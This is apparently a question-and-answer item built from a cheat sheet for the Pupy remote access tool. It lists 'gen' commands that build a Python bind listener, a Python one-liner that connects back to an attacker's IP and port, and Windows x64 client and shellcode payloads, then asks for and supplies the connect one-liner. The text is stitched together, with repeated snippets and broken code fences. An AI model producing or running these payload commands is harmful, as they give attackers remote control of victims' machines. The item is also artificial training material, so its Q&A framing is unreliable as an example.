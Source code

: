 Context:```
>> gen -f py bind --port port -t transport
```
### Python One-liner Connect Payload with pupy
Creates a Python one-liner payload that connects back to the attacker machine at the specified IP and port using the chosen transport.

```
>> gen -f py_oneliner connect --host ip:port -t transport
```
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```
### Python Bind Payload with pupy
Generates a **Python payload** that opens a listener on the target machine, binding to a specific port with the specified transport method.
```
>> gen -f py bind --port port -t transport
```
>> gen -f <format> <launcher> -t <transport>
```
### Windows Shellcode Payload with pupy
Generates a Windows shellcode payload that connects to the specified IP and port using a transport method.
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport

 Question: Generate an example of using the gen command in Pupy to create a Python one-liner connect payload. The payload should connect back to the attacker machine at the specified IP and port using the chosen transport method. Respond with the command in the following format: \n >> gen -f py_oneliner connect --host ip:port -t <transport>. 

 Your response: 
```
>> gen -f py_oneliner connect --host ip:port -t transport
```